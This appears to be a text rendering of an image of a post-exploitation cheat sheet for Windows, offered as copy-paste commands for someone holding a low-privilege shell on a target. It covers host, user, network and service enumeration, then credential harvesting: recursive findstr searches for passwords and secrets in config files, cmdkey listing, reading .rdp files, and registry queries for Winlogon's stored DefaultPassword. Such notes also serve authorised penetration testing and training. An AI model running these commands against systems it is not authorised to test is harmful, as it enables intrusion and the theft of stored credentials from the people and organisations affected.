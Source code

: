 # Typical command walkthrough (detailed, copy-paste friendly)

Assume you have a basic low-priv cmd shell on the target.

Baseline enumeration (cmd)
```
whoami
whoami /groups
whoami /priv
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
wmic qfe get HotFixID,InstalledOn
ipconfig /all
route print
arp -a
netstat -ano
query user
set
echo %PATH%
```

Local users and groups
```
net user
net localgroup
net localgroup administrators
```

Processes/services quick look
```
tasklist /v
sc query state= all
```

File system and content discovery (be selective on large drives)
```
dir C:\Users /b
dir "C:\Users\Public\Desktop"
dir "C:\Users\%USERNAME%\Desktop"
dir /s /b "C:\Users\*\Desktop" 2>nul
dir /s /b "C:\Users\*\Documents" 2>nul

findstr /si /i /p "password|pass|pwd|user|login|credential|secret|key" C:\*.txt C:\*.ini C:\*.cfg C:\*.config C:\*.xml 2>nul
findstr /si /i "password|pwd|user|key|secret" "C:\Program Files\*\*.config" "C:\ProgramData\*\*.config" 2>nul
```

Credential artifacts
```
cmdkey /list
type C:\Users\%USERNAME%\Documents\Default.rdp 2>nul
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon
```
